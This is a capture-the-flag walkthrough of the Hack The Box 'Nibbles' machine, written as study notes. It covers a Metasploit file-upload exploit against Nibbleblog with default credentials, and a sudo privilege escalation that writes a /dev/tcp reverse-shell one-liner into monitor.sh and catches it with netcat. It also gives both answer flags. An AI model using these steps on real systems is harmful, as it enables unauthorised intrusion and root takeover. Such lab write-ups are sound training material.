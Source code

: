 # Nibbles
## Nmap Scan Result:

/home/kali/NOTES/CPTS/Nibbles-HTB/scan.png

After accessing web server on port 80:

/home/kali/NOTES/CPTS/Nibbles-HTB/nibble1.png

Viewing the page source we find an interesting directory ```/nibbleblog```

/home/kali/NOTES/CPTS/Nibbles-HTB/source.png

After Checking metasploit "nibbleblog" seems to be vulnerable to a file upload exploit.

/home/kali/NOTES/CPTS/Nibbles-HTB/exploit1.png

run ```use 0``` to use the exploit

set ```RHOST``` to the target IP

set ```LHOST``` to your HTB VPN IP

set ```TARGETURI``` to ```/nibbleblog```

set ```USERNAME``` to admin

set ```PASSWORD``` to nibbles

run ```exploit``` to start the exploit

Now we have a meterpreter session

/home/kali/NOTES/CPTS/Nibbles-HTB/meterpreter.png

We can find our user flag in ```/home/nibbler```

/home/kali/NOTES/CPTS/Nibbles-HTB/flag1.png

user flag: 79c03865431abf47b90ef24b9695e148

Before we begin to escalate privileges let's change our meterpreter session to a shell session because a meterpreter doesn't support some key Linux commands. To do this just run ```shell``` in your meterpreter

Then run ```python3 -c "import pty; pty.spawn('/bin/bash')"``` to stabilize the shell.

Let's run ```sudo -l``` to see commands we can run sudo without password.

/home/kali/NOTES/CPTS/Nibbles-HTB/sudo.png
We're allowed to run a script ```monitor.sh``` without password

We can find this script when we unzip the personal.zip file in the nibbler home directory.

/home/kali/NOTES/CPTS/Nibbles-HTB/unzip.png

We can find the script in ```/home/nibbler/personal/stuff``` so we ```cd``` into it.

Since we have read, write, and execute privileges to the monitor.sh we can write a reverse shell into it then execute it as sudo and hopefully we'll get root.

```echo "/bin/bash -l > /dev/tcp/<your HTB VPN>/4242 0<&1 2>&1" > monitor.sh```

For Some reason i was having issues running the ```monitor.sh``` script on our target so i had to write my own ```monitor.sh``` on my machine the sent it to our target using python http server.

/home/kali/NOTES/CPTS/Nibbles-HTB/script.png

Now let's set our netcat to listen on port 4242 ```nc -lvp 4242``` (Do this on another terminal instance).

Now we can run ```sudo /home/nibbler/personal/stuff/monitor.sh```

Nice!! We have root privileges now

/home/kali/NOTES/CPTS/Nibbles-HTB/root.png

We can find the root flag ```root.txt``` in ```/root```

/home/kali/NOTES/CPTS/Nibbles-HTB/flag2.png

root flag: de5e5d6619862a8aa5b9b212314e0cdd
